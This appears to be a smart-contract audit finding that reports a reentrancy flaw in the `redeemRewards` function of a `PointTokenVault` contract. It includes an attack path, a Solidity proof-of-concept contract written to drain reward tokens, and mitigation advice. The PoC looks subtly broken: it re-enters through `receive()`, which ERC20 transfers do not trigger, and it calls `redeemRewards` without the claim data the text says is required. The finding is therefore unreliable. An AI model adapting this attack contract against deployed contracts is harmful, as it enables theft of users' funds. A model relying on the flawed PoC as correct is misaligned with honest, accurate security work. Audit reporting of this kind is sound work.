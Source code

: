 Bumpy Sand Viper

Medium

# Attacker Will Exploit Reentrancy Vulnerability to Drain Rewards from `PointTokenVault` Contract

### Summary

The missing reentrancy guard in `PointTokenVault.sol` will cause a complete loss of reward tokens for the `PointTokenVault` contract as an attacker will exploit the reentrancy vulnerability by repeatedly calling the `redeemRewards` function before the contract’s state is updated.

### Root Cause

In [PointTokenVault.sol:172](https://github.com/sherlock-audit/2024-07-sense-points-marketplace/blob/main/point-tokenization-vault/contracts/PointTokenVault.sol#L172-L227) , there is a missing reentrancy guard in the `redeemRewards` function. The contract makes an external call to `rewardToken.safeTransfer` before updating its internal state, leaving it vulnerable to reentrancy attacks.

### Internal pre-conditions

The `PointTokenVault` contract must have a sufficient balance of `rewardToken` to allow multiple redemptions.
The `pTokens` balance of the attacker must be sufficient to initiate a `redeemRewards` call.

### External pre-conditions

The attacker controls an address with a positive balance of `pTokens ` and can call `redeemRewards` with valid claim data.
Gas prices are low enough to allow multiple reentrant calls in a single transaction.

### Attack Path

The attacker calls `redeemRewards` on the `PointTokenVault` contract with valid claim data.
The `redeemRewards` function executes and transfers reward tokens to the attacker.
Before the contract's state is updated, the attacker reenters the contract and triggers another call to r`edeemRewards`.
This process is repeated multiple times, draining the contract's `rewardToken` balance.

### Impact

The `PointTokenVault` contract suffers a complete loss of its `rewardToken` balance. The attacker gains all the reward tokens stored in the contract, effectively draining it of all funds intended for legitimate users

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract Attack {
    IERC20 public rewardToken;
    address public vault;

    constructor(address _vault, address _rewardToken) {
        vault = _vault;
        rewardToken = IERC20(_rewardToken);
    }

    function exploit() external {
        // Call redeemRewards to start the attack
        IVault(vault).redeemRewards();

        // Withdraw the stolen funds
        uint256 balance = rewardToken.balanceOf(address(this));
        rewardToken.transfer(msg.sender, balance);
    }

    receive() external payable {
        // Reenter the vault contract during the transfer
        if (rewardToken.balanceOf(vault) > 0) {
            IVault(vault).redeemRewards();
        }
    }
}

interface IVault {
    function redeemRewards() external;
}
```

### Mitigation

Add a reentrancy guard to the `redeemRewards `function by using the nonReentrant modifier from OpenZeppelin’s ReentrancyGuard contract. Alternatively, ensure that the contract's state is updated before making any external calls.
Or Use CEI in `redeemRewards()` function to prevent reentrancy attack